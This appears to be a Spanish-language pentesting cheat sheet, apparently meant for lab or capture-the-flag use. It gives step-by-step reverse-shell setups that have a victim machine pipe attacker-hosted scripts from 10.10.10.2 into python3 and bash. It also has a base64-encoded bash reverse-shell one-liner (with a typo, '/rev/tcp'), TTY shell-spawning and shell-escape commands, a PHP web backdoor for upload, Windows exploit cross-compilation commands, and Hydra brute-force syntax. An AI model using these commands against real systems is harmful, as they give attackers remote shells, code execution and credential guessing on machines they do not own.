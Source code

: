 
##Puente entre rev shells
En maquina atacante(10.10.10.2)
1-modificamos rev_shell.py de pentesmonkey (ip y puerto 9000)
2-levantamos un servidor http en mismo path con python3 -m http.server 80
3-en otra ventana levantamos un nc -nlvp 9000

En maquina victima(10.10.10.1)
curl 10.10.10.2/rev_shell.py | python3
curl 10.10.10.2/rev_shell.sh | bash 

#Bad chars en rev_shell suponiendo q hay RCE pero no una shell
En maquina atacante
echo -n "bash -c 'bash -i >& /rev/tcp/10.10.10.2/9001 0>&1'" | base64
devolvera un hash en base64

En maquina victima
echo -n bashenbase64= | base64 -d |bash

### Spawning a TTY Shell

> python -c 'import pty; pty.spawn("/bin/sh")'
> echo os.system('/bin/bash')
> /bin/sh -i
> perl -e 'exec "/bin/sh";'
> perl: exec "/bin/sh";
> ruby: exec "/bin/sh"
> lua: os.execute('/bin/sh')
> exec "/bin/sh" (Desde IRB)
> :!bash (Desde vi)
> :set shell=/bin/bash:shell (Desde vi)
> !sh (Desde nmap)
> find /etc/passwd -exec /bin/bash ;

## PHP Avanzado + Windows
Si existe la posibilidad de upload
/usr/share/webshells/php/simple-backdoor.php  #Esto se usa en http://<ip>/path.php?cmd=comando o reverse.exe


## Compilado de Exploits para Windows
### Linux
- i686-w64-mingw32-gcc exploit.c -o exploit

### Windows de 32 bits
- i686-w64-mingw32-gcc exploit.c -o exploit -lws2_32


## Hydra – Brute Force Techniques
Basic Hydra usage
hydra <Username options> <Password options> <Options> <IP Address> <Protocol> -V -f
